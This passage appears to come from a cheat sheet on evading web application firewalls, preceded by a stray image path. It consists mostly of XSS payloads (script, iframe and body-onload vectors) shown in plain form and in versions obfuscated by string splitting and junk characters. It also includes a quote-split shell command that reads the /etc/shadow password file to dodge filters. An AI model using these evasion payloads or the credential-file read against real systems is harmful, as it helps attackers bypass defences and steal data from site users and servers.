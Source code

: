 ```bash
<script>confirm()</script>
```

**Obfuscate payload:**

```bash
<script>eval('con'+'fi'+'rm()')</script>
```

**Basic request:**

> /bin/cat /etc/shadow

**Obfuscate payload:**

> /bi'n'''/c''at' /e'tc'/sh''ad'ow

Bash allows concatenation of paths for execution.

**Basic request:**

```bash
<iframe/onload='this["src"]="javascript:confirm()"';>
```

**Obfuscate payload**

```bash
<iframe/onload='this["src"]="jav"+"as&Tab;cr"+"ipt:con"+"fir"+"m()"';>
```

### 10. Junk character technique

WAF easily filters simple payloads. Adding some junk characters helps avoid detection (only in specific cases). This technique often helps confuse regex-based firewalls.

**Basic request:**

```bash
<script>confirm()</script>
```

**Obfuscate payload:**

```bash
<script>+-+-1-+-+confirm()</script>
```

**Basic request:**

```bash
<BODY onload=confirm()>
```

**Obfuscate payload:**

```bash
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()>
```

**Basic request:**

```bash
<a href=javascript;alert()>ClickMe
```
